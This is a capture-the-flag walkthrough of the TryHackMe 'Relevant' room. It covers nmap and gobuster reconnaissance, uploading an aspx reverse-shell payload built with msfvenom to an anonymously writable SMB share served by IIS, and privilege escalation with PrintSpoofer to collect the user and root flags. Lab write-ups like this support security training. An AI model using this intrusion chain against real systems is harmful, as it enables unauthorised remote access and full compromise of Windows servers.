





## TryHackMe | Relevant

### Step 1: Reconnaissance

Start with an nmap scan against the target machine: 

```
nmap -sV -sC -p- [Target IP]
```
We use -sV for a more verbose response, and -sC for standard scripts, -p- for all ports. Additionally, if you'd like to put the output into a file, you can add -oN [filename].



When our scan finishes, we'll see ports 80, 135, 139, 445, 3389, 49663(which happens to be another http server), 49666, and 49668 open. Lets check out the web server on port 80 first. It seems just like a default web server page run on windows server. Nothing special.

We do have an smb share available so lets check and see what's there.

```
smbclient -L [target IP]
```



There seems to be a share we can access anonymously! Lets access it:
```
smbclient \\\\targetip\\nt4wrksv
```
When we check the contents of the file in the share, there are encoded messages that end up being false logins if you try using evilwinrm to access the machine. So lets move on and check the other http server port our nmap scan showed us.

This one also looks like a normal basic webserver. I previously tried using gobuster on the other webserver on port 80 with no luck, but lets try doing it here on this port too and see if we get any results.
```
gobuster dir -u http://[Machine IP] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Interestingly enough, we find a directory called ```nt4wrksv``` and if we try going to ```http://targeturl:49663/passwords.txt``` we'll find the file we got originally from the smb share. Lets try putting our own file in the share and see if we can access it via the webserver.

## Exploiting the Machine

Make your own random file with some text, log into the smb share, and use
```
put [file]
```
Go to the url with the /[file you uploaded] and it should work! Which means we can upload any files we want. Sounds like we can upload a reverse shell!

Originally, I was trying to do this with a standard php reverse shell with no luck. After doing some research, because this web server is on Windows IIS, we'll need to use the aspx format. We're going to have to build a payload here.

There's actually multiple ways to do this, like msfvenom, but I wanted to try a new platform a colleague of mine talked about called ```https://pentest.ws``` so I'll walk you through how I do it here this time. First you'll have to make an account and go to the venom-builder section. The payload settings we want are as follows:
```
windows/x64/shell_reverse_tcp
LHOST: Your IP
LPORT: Your listening port
Format: aspx
Outfile: the name of the payload file
```
In the bottom left you'll see the msfvenom you can simply copy and paste into your terminal and you now have your payload!


Once msfvenom finishes the payload, we're ready to upload it to our SMB share! Once that's done, set up a listener and visit the page! You've gotten into the machine!



### User Flag

It took me a bit of work to figure out what to do here. This room takes advantage of a vulnerability used in some instances of Windows Server called PrintSpoofer, which I'll make you go find and read about on your own. But we'll need to go to C:\inetpub\wwwroot. You'll notice this is where the nt4wrksv directory is that we were uploading files to via SMB earlier. We go here because we know we have permissions in this directory. Go find the PrintSpoofer.exe file (it shouldn't be too hard to find), and upload it to the smb share that we've been using.
Now use the command:
```
PrintSpoofer.exe -i -c cmd
-i for interact
-c for command
```
We now have an upgraded shell!

We can move to the C:\Users\Bob\Desktop\ directory and find the user flag! P.S. Remember, this is a windows machine so we can't use cat!



### Root Flag

We actually escalated our privileges in the last section, so we can just move to the Administrators share and grab the root flag from there. Thanks for reading!



## Congratulations on completing the Relevant Room!
